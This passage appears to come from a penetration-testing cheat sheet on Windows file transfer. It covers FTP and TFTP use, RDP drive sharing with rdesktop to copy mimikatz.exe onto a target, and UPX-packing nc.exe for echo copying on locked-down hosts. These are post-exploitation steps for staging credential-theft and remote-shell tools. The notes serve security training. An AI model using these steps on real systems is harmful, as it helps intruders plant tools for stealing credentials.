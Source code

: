 #### FTP Transfer

```
ftp -s:ftp-script.txt
```

## TFTP

The TFTP client is not available by default in Windows, but it can be enabled using DISM. \\

```
PS C:\> DISM /online /Enable-Feature /FeatureName:TFTP
```

In newer versions of Windows, the Install-WindowsFeature PowerShell cmdlet can also be used. Both DISM and Install-WindowsFeature require administrative access.

```
PS C:\> Install-WindowsFeature TFTP-Client
```

## RDP

Remote Desktop is often enabled on Windows machines, and from Linux, `rdesktop` can be used to expose a local folder in the remote RDP session.

```
rdesktop 10.10.10.132 -r disk:linux='/home/user/rdesktop/files'
```

After selecting the drive, we can interact with it in the remote session as follows:

```
copy \\tsclient\c\temp\mimikatz.exe .
```

### Echo Copy

On machines with a very stringent lockdown policy, it may be necessary to echo copy files.

Echo copying files is very inefficient and can result in a large amount of data being transferred across the clipboard, so we can use an executable packer such as [UPX](https://github.com/upx/upx/releases) to make the source file as small as possible.

```
upx --best nc.exe


c:\> upx.exe --best nc.exe
 Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
     59392 ->     29696   50.00%    win32/pe     nc.exe                        

Packed 1 file.
```
